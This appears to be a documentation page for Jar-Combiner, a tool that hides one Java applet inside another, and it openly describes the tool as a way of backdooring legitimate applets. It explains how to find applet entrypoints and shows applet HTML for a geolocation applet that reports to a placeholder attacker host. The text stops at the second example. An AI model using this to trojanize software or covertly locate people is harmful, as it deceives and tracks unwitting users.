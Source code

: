 
Jar-Combiner
===========

Website
-------

<https://bitbucket.org/ethanr/jar-combiner>

Description
-----------

Jar-Combiner is a tool used to combine two seperate Java applets into one.  The resultant combined applet will run one of the former applets normally, while hiding the second one in the background.
This is incredibly useful for backdooring legitimate Java applets.
A user running the new combined applet will see what they expect, while your code runs in the background.

Install Location
----------------

`/opt/jar-combiner/`

Usage
-----

`/opt/jar-combiner/Linux$` **`./joining.sh help`**

Video Walkthrough
-----------------

<iframe src="https://onedrive.live.com/embed?cid=8D6C4317A39E3D29&resid=8D6C4317A39E3D29%2155669&authkey=AGBOyyL_dQsqGLg" width="320" height="180" frameborder="0" scrolling="no" allowfullscreen></iframe>

Example 1: Finding the Entrypoints
----------------------------------

In order to combine two applets, you must first know the entrypoints into both of those applets.
The entrypoints are the classes that extend `JApplet` or `Applet`; they are where the code starts.
Every applet has a different entrypoint.

The easiest way to determine the entrypoints is by looking at html files made to launch the
applets in question.  Take an html file or webpage that launches one of your Java applets and
view its source.  In the source of the file you should be able to find the `applet` tag.
Inside of this tag, find the parameter `code`.  The value to which the parameter `code` is set,
is your entrypoint for that applet.

For example, the html that launches the HoneyBadger geolocation applet looks something like this:

    <applet code="honey.class" archive="honey.jar" width="0px" height="0px">
        <param name="target" value="target_name" />
        <param name="service" value="http://YOUR_ADHD_IP_ADDRESS/honeybadger/service.php"
    </applet>

So in this case, the path to the entrypoint would simply be `honey.class`.

Example 2: Combining Two jars
-----------------------------
